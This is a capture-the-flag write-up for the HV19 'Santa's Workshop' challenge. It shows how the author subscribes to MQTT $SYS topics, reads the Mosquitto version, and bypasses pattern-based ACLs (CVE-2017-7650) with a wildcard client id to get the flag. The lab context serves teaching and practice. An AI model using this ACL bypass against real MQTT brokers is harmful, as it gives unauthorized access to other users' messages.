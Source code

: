 # HV19.15 Santa's Workshop

https://academy.hacking-lab.com/events/6/challenges/82

Today it's all about a websocket based IoT protocol: MQTT

Reading on [wikipedia](https://de.wikipedia.org/wiki/MQTT) how it works, and playing in the browser by modifying global variables (`topic`, `username`, `password`) and reconnecting (using `mqtt.disconnect()` and relying on automatic reconnect).

To log the messages I modified the related function `onMessageArrived`:

```javascript
function onMessageArrived(message) {
    var topic = message.destinationName;
    var payload = message.payloadString;
    console.log(topic)
    console.log(payload)
    countUp.update(payload);
};

mqtt.disconnect()
```

After a chat with TheCompiler I was strengthened that I have to find some MQTT related issues. So I was reading more (about the basics)[https://www.hivemq.com/blog/mqtt-essentials-part-5-mqtt-topics-best-practices/] and played around with the topic wildcard operators:

```javascript
topic = 'HV19/gifts/'+clientId;
topic = 'HV19/gifts/#';
topic = 'HV19/+/'+clientId;
topic = '$SYS/#';
```

Subscribing to `$SYS/#` leaked the following information: 

    $SYS/broker/version
    mosquitto version 1.4.11 (We elves are super-smart and know about CVE-2017-7650 and the POC. So we made a genious fix you never will be able to pass. Hohoho)

The summary of the **CVE-2017-7650** vulnerability is

    In Mosquitto before 1.4.12, pattern based ACLs can be bypassed by clients that set their username/client id to '#' or '+'. This allows locally or remotely connected clients to access MQTT topics that they do have the rights to. The same issue may be present in third party authentication/access control plugins for Mosquitto.

So from this hint, I expect that we can do something with # or + in the clientid.

The solution after fiddling with everything is:

```javascript
clientid = "0273878540509521/#"
topic = "HV19/#"
```

This brings up the flag in the javascript console log:

    HV19/gifts/0273878540509521/HV19{N0_1nput_v4l1d4t10n_3qu4ls_d1s4st3r}
    Congrats, you got it. The elves should not overrate their smartness!!!


